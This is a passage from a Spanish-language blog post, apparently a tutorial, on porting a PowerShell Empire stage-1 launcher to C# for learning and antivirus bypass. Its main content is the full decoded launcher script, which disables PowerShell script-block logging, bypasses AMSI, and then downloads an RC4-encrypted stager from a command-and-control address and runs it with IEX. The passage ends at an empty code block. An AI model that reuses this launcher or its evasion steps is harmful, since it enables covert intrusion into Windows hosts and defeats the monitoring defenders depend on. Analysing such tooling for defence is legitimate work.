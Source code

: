```yaml
---
title: PowerEmpire Stage 1 to CSharp for Learning and AV Bypass.
---
```


¿Cómo puedo ejecutar PowerEmpire usando un .exe en lugar de un comando de PowerShell? Me hice esta pregunta y decidí ver qué hace el comando de PowerShell Empire y lo repliqué en C #.

Como todos sabemos, PowerShell puede usar clases .Net, que hacen de PowerShell un lenguaje de scripts sólido. Esta es una de las razones por las que Defensores y Atacantes comenzaron a usar PowerShell. Algunas de las herramientas más populares de uso ofensivo de PowerShells son [BloodHound](https://github.com/BloodHoundAD/BloodHound), [PowerEmpire](https://github.com/EmpireProject/Empire), [PowerSploit](https://github.com/PowerShellMafia/PowerSploit), [Nishang tools](https://github.com/samratashok/nishang), por mencionar algunas.

Debido a que PowerShell ha sido muy utilizado por los atacantes, Microsoft comenzó a introducir algunos controles de seguridad que permiten monitorear más a PowerShell.

Comencemos con el análisis de PowerEmpire Launcher. Antes que nada, ¿qué es PowerShell Empire? Se trata de un framework de post-exploitation que utiliza PowerShell y comunicaciones seguras desde el punto de vista criptológico. Si necesita más información sobre este proyecto, visite [www.powershellempire.com](www.powershellempire.com).

PowerEmpire tiene muchas formas de ejecución que puedes elegir para lanzar tu ataque, para Windows incluye dll, macro, hta, bat, vbs, shellcode, etc. Entonces, ¿por qué decidí crear un código C# para Empire si ya hay uno? Bueno, digamos que quería entender qué hace Empire, cómo lo hace y me preguntaba si podría crear mi propio código.

Así es cómo se genera un Launcher:

![pse_launcher](/assets/images/pse_launcher.png)

Este es el script decodificado:

```console
If($PSVErSioNTaBLe.PSVErSIoN.MAjor -gE 3){$GPF=[rEf].AsSeMblY.GetTYpE('System.Management.Automation.Utils')."GeTFie`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static');If($GPF){$GPC=$GPF.GeTValUE($NULL);IF($GPC['ScriptB'+'lockLogging']){$GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$Val=[ColLECTionS.GENeric.DIcTiOnarY[STriNG,SystEm.Object]]::NEw();$vAL.ADD('EnableScriptB'+'lockLogging',0);$VAL.AdD('EnableScriptBlockInvocationLogging',0);$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$vAL}ElSe{[ScRIPtBloCk]."GETFIE`lD"('signatures','N'+'onPublic,Static').SetVALUe($nuLl,(New-OBJect COllEcTIONs.GenErIC.HASHSet[sTRInG]))}[REF].AsSEMBLY.GEtTypE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIeld('amsiInitFailed','NonPublic,Static').SETVALUe($null,$true)};};[SystEM.NeT.SErvicEPOINTManAGeR]::EXPeCt100CoNTinUe=0;$wC=New-ObJecT SYsTem.NET.WeBCLIENt;$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';$WC.HEaDERS.ADd('User-Agent',$u);$wC.PRoxY=[SYsteM.NET.WEbRequest]::DeFAulTWEbPROxY;$wC.Proxy.CREdentIaLs = [SyStEM.NEt.CReDenTiaLCACHE]::DefAultNEtWorkCReDEntiALs;$Script:Proxy = $wc.Proxy;$K=[SYsTEm.TEXT.ENcODinG]::ASCII.GeTBYtEs('fdcece0a22c10f83dccc8f17c95a33d4');$R={$D,$K=$ARGs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXOr$S[($S[$I]+$S[$H])%256]}};$ser='http://192.168.6.119:80';$t='/CWoNaJLBo/VTNeWw11212/';$wc.HeADeRs.AdD("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");$Wc.HeaDeRs.Add("Accept-Language","en-en");$WC.HEADErS.AdD("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");$DAtA=$WC.DOWnlOADDAtA($SEr+$T);$iv=$datA[0..3];$Data=$DATa[4..$DATA.LENgTh];-jOiN[ChaR[]](& $R $Data ($IV+$K))|IEX
```console

Este es el mismo script, pero eliminé algunas ofuscaciones para obtener una mejor vista:

```console
```